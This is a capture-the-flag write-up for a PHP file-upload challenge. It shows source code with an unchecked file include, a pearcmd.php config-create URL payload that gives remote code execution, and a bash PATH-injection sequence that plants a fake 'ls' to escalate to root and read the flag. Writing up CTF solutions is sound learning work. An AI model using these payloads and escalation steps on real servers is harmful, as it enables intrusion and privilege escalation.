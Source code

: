 # filestore

![Oops](./images/description.png)

This is server source code
```php
// index.php
 <?php
    if($_SERVER['REQUEST_METHOD'] == "POST"){
        if ($_FILES["f"]["size"] > 1000) {
            echo "file too large";
            return;
        }
    
        $i = uniqid();

        if (empty($_FILES["f"])){
            return;
        }

        if (move_uploaded_file($_FILES["f"]["tmp_name"], "./uploads/" . $i . "_" . hash('sha256', $_FILES["f"]["name"]) . "_" . $_FILES["f"]["name"])){
            echo "upload success";
        } else {
            echo "upload error";
        }
    } else {
        if (isset($_GET["f"])) {
            include "./uploads/" . $_GET["f"];
        }

        highlight_file("index.php");

        // this doesn't work, so I'm commenting it out 😛
        // system("/list_uploads");
    }
?>

```

The application allows you to upload files or include any file.

Initially, my idea was to upload a PHP file, brute force the file name, and then include that file. However, this method was taking too long, so I decided to give up on it.

After a long period of being stuck, I noticed pearcmd.php in the Docker machine and decided to try it.
```URL
https://filestore.web.actf.co/?+config-create+/&f=../../../../usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
```

And I can perform RCE
![Oops](./images/rce.png)

The user which is running web server is `ctf`, so we can't read `/flag.txt` 

![Oops](./images/permission.png)

Additional, there are two provided ELF 64 files, so just check it out. Open them with IDA 64.

The `list_uploads` is very interesting.
![Oops](./images/list_uploads_pseudo.png)

It uses `ls` and we can inspect the file permission in `Dockerfile`, so we can try exploiting by using the [PATH injection](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) technique.

```bash
cd /tmp;
printf '#include<unistd.h>\nvoid main(){ setuid(0); setgid(0); system("cat /flag.txt");}'>ls.c;
gcc -o ls ls.c;
export PATH=/tmp:$PATH;
cd /;
./list_uploads
```

![Oops](./images/flag.png)